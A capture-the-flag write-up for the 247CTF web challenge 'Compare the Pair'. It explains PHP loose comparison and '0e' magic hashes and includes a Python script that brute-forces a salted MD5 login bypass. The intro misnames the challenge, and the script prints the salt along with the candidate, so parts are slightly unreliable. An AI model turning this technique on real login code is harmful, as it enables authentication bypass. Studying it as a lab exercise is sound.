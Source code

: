 
# COMPARE THE PAIR (Web)

## Intro
This is my write-up for the Web challenge "Secured Session" on the CTF site 247CTF.com.

## Challenge Details
The challenge involves guessing a way to bypass the login logic using something related to `md5`.

## Steps to Solve

### 1. Access the Application
Start by accessing the web application provided for the challenge.

### 2. Analyze the Provided PHP Code

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

The code takes the `$salt` and concatenates it with our `$password` input, then `md5` hashes it to compare with the `$password_hash`.

We have no information about what the password might be, and brute-forcing it could take a long time.

### 3. Understanding the Vulnerability

In PHP, the comparison operator `==` is used to compare two values for equality. It checks if the values are equal after performing type juggling, which means PHP will try to convert the values to a common type before making the comparison.

#### Key Points About `==` in PHP:

1. **Type Juggling**: PHP automatically converts the data types of the operands to a common type when using `==`. For example:

   ```php
   if (5 == "5") {
       echo "Equal";
   }
   ```
   In this case, `"5"` (a string) is converted to an integer, so the comparison `5 == "5"` returns true.

2. **Loose Comparison**: Because of type juggling, `==` is known as a "loose comparison." For example:

   ```php
   if (0 == false) {
       echo "Equal";
   }
   ```
   Here, `0` is considered equivalent to `false`, so the comparison returns true.

3. **Common Pitfalls**:
   - Comparing different types can lead to unexpected results:

     ```php
     if ("0" == false) {
         echo "Equal";
     }
     ```
     The string `"0"` is treated as `false` when loosely compared, so this would also return true.

Also, we can see that the format of the `$password_hash` looks like a very large number starting with `0e...`.

When you compare a string like `0e1234` to other values using `==`, PHP treats `0e1234` as a number, specifically the number `0`. This can lead to surprising results:

```php
if ("0e1234" == 0) {
    echo "Equal";
} else {
    echo "Not Equal";
}
```

**Output**: `"Equal"`

### 4. Exploiting the Vulnerability

The vulnerability is now clear: all we have to do is find a password that, when concatenated with `$salt`, its `md5` hash generates a string that looks like a large number (starts with `0e` and the rest are digits).

Here is the Python code that can be used to find such a password:

```python
from itertools import product  # Import the product function from itertools to generate combinations
import hashlib  # Import the hashlib module for generating MD5 hashes

# Iterate through different lengths of the combination
for x in range(0, 10):  # Loop over lengths from 0 to 9 (inclusive)
    # Generate all possible combinations of the alphabet with the current length 'x'
    for combo in product("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789", repeat=x):
        # Create the string to hash by appending the current combination to the fixed string
        result = hashlib.md5(("f789bbc328a3d1a3" + ''.join(combo)).encode()).hexdigest()

        # Check if the resulting hash has the desired properties
        if result.startswith("0e") and result[2:].isdigit():  # Look for a hash that starts with '0e' and is followed only by digits
            # If a matching hash is found, print the string that generated it
            print("f789bbc328a3d1a3" + ''.join(combo))
        else:
            pass  # If the hash doesn't match the criteria, do nothing and continue
```

Once you find a matching password, you can send it to the server with `?password=xxxxxx`. If the correct password is found, you will receive the flag.

### Resources
- [PHP Type Juggling](https://www.php.net/manual/en/language.types.type-juggling.php)
- [Write-up Reference](https://github.com/abhaynayar/obsidian/blob/master/labs/web/247ctf.md)

